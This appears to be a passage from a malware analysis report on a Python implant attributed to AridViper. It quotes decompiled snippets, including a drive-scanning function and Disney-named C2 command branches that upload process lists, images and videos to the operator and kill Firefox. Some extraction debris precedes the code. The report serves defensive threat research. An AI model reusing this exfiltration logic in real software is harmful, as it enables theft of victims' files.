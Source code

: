        if type == 4:
           return 'empty'
       return last_date
   except Exception as e:
       return 'empty'




1234567891011121314151617181920

def getLastModDir(type):   try:       c = wmi.WMI()       Mv = ''       for drive in c.Win32_LogicalDisk(DriveType=type):           Mv = drive.Caption        last_date = ''       dirpath = Mv       entries = (os.path.join(dirpath, fn) for fn in os.listdir(dirpath))       entries = ((os.stat(path), path) for path in entries)       entries = ((stat[ST_MTIME], path) for stat, path in entries if S_ISREG(stat[ST_MODE]))       for cdate, path in entries:           last_date = datetime.datetime.fromtimestamp(cdate)        if type == 4:           return 'empty'       return last_date   except Exception as e:       return 'empty'





There are several examples of implementations like this across the code, which show an incomplete or ongoing implementation, which is a signal that the sample is still under active development by the actor.
As we mentioned before, the response string is split by its delimiter and the commands and encoded parameters sent by the C2 operator are parsed. As an interesting fact, the commands are full of references to Disney (in the past, we have seen AridViper using variables referencing characters of The Big Bang Theory or Game of Thrones, for example).
Figure 21. C2 commands example.
Another interesting example of incomplete code is the fact that the code won’t be able to go through all the possible branches and functionality in the C2 implementation. For example, in the following code snippet, if the code enters into the “Mulan” branch, it won’t enter into the “Vanellope” code block:


Python


if Im_extintion == 'Mulan':
    path = Process_list(MyFolderName)
    status = Upload_File('else', path, FranDrescher, Im_extin)
    if status:
        status = Delete_Request(Im_extin)
    if Im_extintion == 'Mulan_Fire':
        K_process('firefox.exe')
        Compress_File_Rar_WithoutDel2()
        status = Delete_Request(Im_extin)
    if Im_extintion == 'Vanellope':
        path = Get_ImgType(MyFolderName)
        status = Upload_File('else', path, FranDrescher, Im_extin)
        if status:
            status = Delete_Request(Im_extin)
        if Im_extintion == 'Calhoun':
            path = Get_VedioType(MyFolderName)
            status = Upload_File('else', path, FranDrescher, Im_extin)
            if status:
                status = Delete_Request(Im_extin)
